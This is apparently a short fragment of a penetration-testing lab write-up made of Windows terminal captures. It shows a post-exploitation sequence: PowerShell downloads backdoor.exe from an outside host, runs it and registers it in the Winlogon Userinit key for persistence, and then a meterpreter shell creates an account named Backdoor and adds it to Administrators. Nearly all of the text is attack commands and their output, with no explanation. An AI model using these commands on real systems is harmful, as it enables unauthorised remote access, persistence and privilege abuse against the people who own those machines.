 ```
PS C:\Users\Administrator\Downloads> Invoke-WebRequest -Uri "http://10.8.106.222/backdoor.exe" -OutFile "C:\Users\Admini
strator\Downloads\backdoor.exe"
PS C:\Users\Administrator\Downloads> ls


    Directory: C:\Users\Administrator\Downloads


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/30/2020   1:47 PM          73802 backdoor.exe


PS C:\Users\Administrator\Downloads> .\backdoor.exe
PS C:\Users\Administrator\Downloads> reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d
 "Userinit.exe, C:\Users\Administrator\Downloads\backdoor.exe" /f
The operation completed successfully.
PS C:\Users\Administrator\Downloads>
```

`Invoke-WebRequest -Uri "http://10.8.106.222/backdoor.exe" -OutFile "C:\Users\Backdoor\Downloads\backdoor.exe"`

`reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, C:\Users\Administrator\Downloads\backdoor.exe" /f`

```
meterpreter > shell
Process 5004 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Downloads>net user /add Backdoor backdoor
net user /add Backdoor backdoor
The command completed successfully.


C:\Users\Administrator\Downloads>net localgroup Administrators Backdoor /add
net localgroup Administrators Backdoor /add
The command completed successfully.


C:\Users\Administrator\Downloads>net localgroup Administrators
net localgroup Administrators
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Backdoor
The command completed successfully.


C:\Users\Administrator\Downloads>
```

